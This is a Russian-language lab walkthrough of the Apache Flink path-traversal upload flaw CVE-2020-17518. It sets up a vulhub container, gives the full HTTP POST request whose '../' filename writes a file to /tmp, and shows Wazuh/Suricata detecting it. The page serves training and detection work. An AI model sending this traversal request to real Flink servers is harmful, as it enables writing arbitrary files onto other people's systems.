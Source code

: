 # CVE-2020-17518

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)
* [https://www.opencve.io/cve/CVE-2020-17518](https://www.opencve.io/cve/CVE-2020-17518)
* [https://www.programmersought.com/article/236511184567/](https://www.programmersought.com/article/236511184567/)

Apache Flink - это фреймворк для обработки потоков с открытым исходным кодом, обладающий мощными возможностями потоковой и пакетной обработки.

В Apache Flink 1.5.1 появился REST-обработчик, позволяющий записать загруженный файл в произвольное место локальной файловой системы через злонамеренно измененный HTTP HEADER.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/flink/CVE-2020-17518

Для запуска узявимой среды выполните команду

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8081 будет доступна домашняя страница Apache Flink

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Для эксплуатации уязвимости отправьте соответствующий POST-запрос:

```
POST /jars/upload HTTP/1.1
Host: ваш-ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

После его отправки будет на машине будет создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть, что Suricata детектирует действия как эксплуатацию CVE-2021-1499

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
